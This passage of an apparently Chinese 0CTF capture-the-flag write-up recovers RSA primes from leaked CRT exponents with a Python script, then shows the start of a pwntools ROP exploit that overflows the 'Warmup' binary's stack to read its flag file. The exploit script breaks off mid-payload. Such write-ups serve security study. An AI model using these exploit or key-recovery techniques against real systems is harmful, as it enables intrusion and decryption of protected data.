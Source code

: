 发现残余的部分含有 e、d mod(p-1)和d mod (q-1)。

这样我们就可以暴力跑出来p，q。

```
import gmpy
d_p = 0xd5a225c0d41b16699c4471570eecd3dd7759736d5781aa7710b31b4a46e441d386da1345bc97d1aa913f853f850f6d4684a80e6067fb71cf213b276c2cbaed59
d_q = 0x1338c593d3b5428ce978bed7a553527155b3d138aeac084020c0c67f54b953015e55f60a5d31386505e02e6122dad7db0a05ecb552e448b347adc2c9170fa2f3
e = 65537
for k_p in range(1, e):
    if (e*d_p - 1) % k_p == 0:
        p = (e*d_p - 1) / k_p + 1
        if gmpy.is_prime(p):
            print '[p] {}'.format(p)
            break
for k_q in range(1, e):
    if (e*d_q - 1) % k_q == 0:
        q = (e*d_q - 1) / k_q + 1
        if gmpy.is_prime(q):
            print '[q] {}'.format(q)
            break
# [p] 12883429939639100479003058518523248493821688207697138417834631218638027564562306620214863988447681300666538212918572472128732943784711527013224777474072569
# [q] 12502893634923161599824465146407069882228513776947707295476805997311776855879024002289593598657949783937041929668443115224477369136089557911464046118127387

```

直接用p，q，e算出d。则m=pow(c, d, n)。

`flag:0ctf{Keep_ca1m_and_s01ve_the_RSA_Eeeequati0n!!!}`

0x08 Warmup(Exploit)
====================

* * *

根据题目描述，这道题目只能去读取/home/warmup/flag。实际测试不能执行execve等系统调用。在栈中布置payload可以进行rop调用open，read，write来读取flag。

```
#!/usr/bin/env python2
from pwn import *
#0ctf{welcome_it_is_pwning_time}
r = remote('127.1', 4444)
#r = remote('202.120.7.207', 52608)
data = 0x080491BC
read = 0x0804811D
add_esp = 0x080481B8
flag = '/home/warmup/flag\x00'
buf = data+len(flag)
raw_input('debug')
payload = 'A'*0x20 + p32(0x080480D8) + 'AAAA' * 4
r.send(payload)
payload = 'A'*0x20 + p32(0x080480D8) + p32(add_esp) + p32(1) + p32(buf) + p32(64)
r.send(payload)
payload = 'A'*0x20 + p32(0x080480D8) + 'AAAA' * 3 + p32(0x08048135)
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + 'BBBB' * 4
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + p32(buf) + p32(64) + 'BBBB' * 2
r.send(payload)
payload = 'B'*0x20 + p32(0x080480D8) + 'BBBB' * 1 + p32(read) + p32(add_esp) + p32(3)
r.send(payload)
payload = 'C'*0x20 + p32(0x080480D8) + 'CCCC' * 4
r.send(payload * 2)
payload = 'C'*0x20 + p32(0x080480D8) + p32(add_esp) + p32(data) + p32(0) + 'CCCC'
```